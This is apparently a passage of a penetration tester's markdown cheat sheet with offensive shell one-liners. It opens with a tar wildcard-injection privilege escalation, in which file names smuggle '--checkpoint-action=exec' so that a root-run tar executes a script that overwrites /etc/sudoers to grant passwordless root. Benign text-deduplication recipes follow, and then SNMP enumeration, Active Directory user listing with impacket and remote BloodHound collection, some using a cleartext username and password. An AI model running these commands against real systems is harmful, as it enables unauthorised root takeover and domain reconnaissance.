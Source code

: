 ```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
```

#### Remove Duplicated Words

Assuming that the words are one per line, and the file is already sorted:

```bash
uniq filename
```

If the file's not sorted:

```bash
sort filename | uniq
```

If they're not one per line, and you don't mind them being one per line:

```bash
tr -s [:space:] \\n < filename | sort | uniq
```

That doesn't remove punctuation, though, so maybe you want:

```bash
tr -s [:space:][:punct:] \\n < filename | sort | uniq
```

#### SNMPWalk

Always run this is snmp is open:

```bash
snmpwalk -v 2 -c public $ip NET-SNMP-EXTEND-MIB::nsExtendObjects
```

#### Get Users in DC (Authenticated)

Gather information about users if you have creds but can't get on a box:

```bash
impacket-GetADUsers -dc-ip 192.168.214.122 "exampleH.example/" -all
impacket-GetADUsers -dc-ip 192.168.214.122 exampleH.example/fmcsorley:CrabSharkJellyfish192 -all
```

#### Run BloodHound Remotely

```bash
/opt/BloodHound.py/bloodhound.py -d exampleH.example -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.214.122
```